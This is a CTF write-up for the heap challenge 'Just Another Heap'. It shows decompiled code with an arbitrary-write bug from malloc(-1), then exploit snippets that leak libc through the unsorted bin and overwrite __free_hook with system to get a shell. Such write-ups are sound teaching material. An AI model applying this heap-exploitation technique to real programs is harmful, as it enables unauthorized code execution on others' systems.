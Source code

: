 # Just Another Heap

Arbitary write in **sub_400A11** function or **add()** function

```c
unsigned __int64 sub_400A11()
{
  ...
  else
  {
    v3 = 0;
    v4 = 0;
    v8 = 0LL;
    puts("at what page would you like to write?");
    sub_400926(&v8);
    if ( qword_602140[v8] || v8 > 9 )
    {
      puts("there is already something written at that page.");
    }
    else
    {
      puts("name:");
      v0 = v8;
      qword_602260[v0] = malloc(0x20uLL);
      sub_4009D2(qword_602260[v8], 16LL);
      v1 = qword_602260[v8];
      v1[strcspn(v1, "\n")] = 0;
      puts("How long is your memory");
      sub_400926(&size);              //size = -1 or 0xFFFFFF....
      v9 = malloc(size);              //malloc(-1) --> v9 == 0
      puts("Sometimes our memories fade and we only remember parts of them.");
      sub_400926(&v7);                //We add v7 = 0xdeadbeef
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if ( v7 <= size )               //always true, v7 <= 0xFFFFF... (size_t -1)
      {
        if ( v9 )                     //v9 == 0
        {
          for ( i = 0; i < v7; ++i )  //since v9 == 0, this line will be skipped 
            v9[i] = 95;
        }
        v9 += v7;                     //so v9 += v7 => v9 = 0xdeadbeef, arbitary write here
        fflush(stdin);
        puts("What would you like to write");
        sub_4009D2(v9, size - v7);
        puts("Would you say this memory is important to you? [Y/N]");
        ...
}
```

I thoght at first this a heap challenge xd :)

To leak libc address we just need to do this
```py
add(0x440) #0
add(0x30) #1
free(0)
```

Program using **fgets()** for payload, but in **sub_400FC7()** or **edit()** function, program use **read()**
So we can use this for leak the libc

```py
add(0,b'0'*4,0x440,0x10,b'B'*0x8)
add(1,b'1'*4,0x30,0x0,b'/bin/sh\x00') #save for later
delete(0)                             #unsorted bin
add(2,b'2'*4,0x30,0x5,b'')            #unsorted bin
edit(2,b'N',b'X'*4)                   #edit 2
relive(2)                             #leak libc
```

![Leak](anotherheap.png)

Alright so far so good we have libc address now, now we can ovewrite **__free_hook** to **system**
```py
add(0,b'L'*4,-10000,libc.sym['__free_hook'],p64(libc.sym['system'])) #free_hook to system
delete(1) #system('/bin/sh')
```

Tada!! Solved :)


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Just%20Another%20Heap/exploit.py)

![Flag](anotherheap2.png)
